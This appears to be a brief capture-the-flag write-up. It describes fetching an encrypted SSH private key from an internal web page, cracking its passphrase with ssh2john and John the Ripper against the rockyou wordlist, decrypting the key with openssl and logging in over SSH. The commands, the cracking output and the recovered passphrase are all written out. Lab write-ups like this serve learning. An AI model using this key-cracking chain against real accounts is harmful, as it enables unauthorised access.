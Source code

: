 # Recieved an ssh key from the internal website http://127.0.0.1:52846/main.php
## curled to this website to get the ssh key in /ssh-keys
- Used sshtojohn.py on it to get with rockyou.txt to get in the correct form.
- then used john the ripper to crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh-rsa-joanna.john
```
### Recieved the following output
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa_joanna)
1g 0:00:00:05 DONE (2020-01-21 11:45) 0.1773g/s 2542Kp/s 2542Kc/s 2542KC/s *7¡Vamos!
Session completed

``` 

- the password to crack the id_rsa encryption is `bloodninjas`
	* going to use openssl to crack the encryption

```
openssl rsa -in encrypt-id_rsa_joanna -out decrypt-id_rsa_joanna
``` 
- this command decrypts her rsa key into a usable form

```
ssh -i decrypt-id_rsa_joanna
```
